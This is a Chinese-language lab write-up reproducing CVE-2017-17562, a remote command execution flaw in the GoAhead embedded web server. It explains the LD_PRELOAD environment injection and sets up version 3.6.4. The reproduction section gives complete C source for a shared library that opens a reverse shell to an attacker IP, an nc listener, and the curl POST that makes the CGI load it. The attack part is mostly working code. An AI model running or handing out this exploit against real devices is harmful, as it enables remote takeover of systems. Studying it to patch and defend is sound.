



# GoAhead Server 远程命令执行漏洞 CVE-2017-17562

## 漏洞描述

GoAhead是一个开源(商业许可)、简单、轻巧、功能强大、可以在多个平台运行的Web Server，多用于嵌入式系统、智能设备。其支持运行ASP、Javascript和标准的CGI程序，这个漏洞就出现在运行CGI程序的时候。

GoAhead在接收到请求后，将会从URL参数中取出键和值注册进CGI程序的环境变量，且只过滤了`REMOTE_HOST`和`HTTP_AUTHORIZATION`。我们能够控制环境变量，就有很多攻击方式。比如在Linux中，`LD_`开头的环境变量和动态链接库有关，如`LD_PRELOAD`中指定的动态链接库，将会被自动加载；`LD_LIBRARY_PATH`指定的路径，程序会去其中寻找动态链接库。

我们可以指定`LD_PRELOAD=/proc/self/fd/0`，因为`/proc/self/fd/0`是标准输入，而在CGI程序中，POST数据流即为标准输入流。我们编译一个动态链接库，将其放在POST Body中，发送给`http://target/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0`，CGI就会加载我们发送的动态链接库，造成远程命令执行漏洞。

参考链接：

- https://www.elttam.com.au/blog/goahead/

## 漏洞影响

## 环境搭建

Vulhub启动漏洞环境：

```
docker-compose up -d
```

启动完成后，访问`http://your-ip:8080/`即可看到欢迎页面。但是访问`http://your-ip:8080/cgi-bin/index`不能查看到Hello页面，**重新搭建复现环境**。

- 参考阅读：https://xz.aliyun.com/t/6407

下载、编译并运行存在该漏洞的GoAhead（3.6.4）：

```
git clone https://github.com/embedthis/goahead.git
cd goahead
git checkout tags/v3.6.4 
make #编译GoAhead
cd test # 要进到test目录下运行，其它目录下没有self.key等文件会报错
gcc ./cgitest.c -o cgi-bin/cgitest #编译用来测试的CGI文件
sudo ../build/linux-x64-default/bin/goahead #运行GoAhead Web服务器
```

成功启动GoAhead Web服务器：



测试cgi页面能否访问。成功访问，显示版本为3.6.4，存在CVE-2017-17562漏洞，开始漏洞复现。

```
$ curl http://172.16.217.185:80/cgi-bin/cgitest
```



## 漏洞复现

编译用于动态加载的so，首先新建`exp.c`。

```c
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="192.168.174.128";
uint32_t server_port=9999;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void)
{
  //socket initialize
    int sock = socket(AF_INET, SOCK_STREAM, 0);
    struct sockaddr_in attacker_addr = {0};
    attacker_addr.sin_family = AF_INET;
    attacker_addr.sin_port = htons(server_port);
    attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  //connect to the server
    if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
        exit(0);
  //dup the socket to stdin, stdout and stderr
    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);
  //execute /bin/sh to get a shell
    execve("/bin/sh", 0, 0);
}
```

gcc将`exp.c`编译为`exp.so`。

```
gcc -shared -fPIC ./exp.c -o exp.so
```

在控制端监听9999端口：

```
nc -vvl 9999
```

执行POC：

```
curl -X POST --data-binary @exp.so http://192.168.174.128/cgi-bin/cgitest\?LD_PRELOAD\=/proc/self/fd/0
```

成功获取shell并执行命令：


